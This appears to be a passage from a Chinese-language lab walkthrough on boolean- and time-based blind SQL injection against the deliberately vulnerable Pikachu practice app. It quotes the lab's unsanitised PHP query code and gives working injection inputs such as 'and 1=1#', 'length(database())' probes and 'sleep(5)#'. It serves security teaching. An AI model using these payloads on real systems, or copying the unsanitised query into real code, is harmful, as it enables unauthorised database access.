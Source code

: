 

通过源码可以看到没有做任何处理，直接将name参数拼到select里面去存在注入，但是使用了mysqli_query不回显错误，很明显的盲注。



## 实战

在前面我们知道用户vince是存在的，输入

```plain
vince ' and 1=1# 成功显示用户信息vince ' and 1=2# 报错
```



说明存在注入



判断数据库长度，输入

```plain
vince ' and length(database())=7# 成功显示用户信息vince ' and length(database())=8# 报错
```



说明数据库长度为7



SQL注入详情可以看sqli-labs系类，这里不进行详细叙述。



# 基于时间的盲注

## 查看关键代码

```php
$html='';if(isset($_GET['submit']) && $_GET['name']!=null){    $name=$_GET['name'];//这里没有做任何处理，直接拼到select里面去了    $query="select id,email from member where username='$name'";//这里的变量是字符型，需要考虑闭合    $result=mysqli_query($link, $query);//mysqi_query不打印错误描述//     $result=execute($link, $query);//    $html.="<p class='notice'>i don't care who you are!</p>";    if($result && mysqli_num_rows($result)==1){        while($data=mysqli_fetch_assoc($result)){            $id=$data['id'];            $email=$data['email'];            //这里不管输入啥,返回的都是一样的信息,所以更加不好判断            $html.="<p class='notice'>i don't care who you are!</p>";        }    }else{        $html.="<p class='notice'>i don't care who you are!</p>";    }}
```



通过源码可以看到和前面一样依然是没有做任何处理，就直接拼到select里面去了，不也一样的是在这里无论我们输入什么返回的结果都一样并且在这里有一个闭合的问题，可使用#号注释。所以只能使用时间盲注。



## 实战

输入

```plain
vince' and sleep(5)#
```
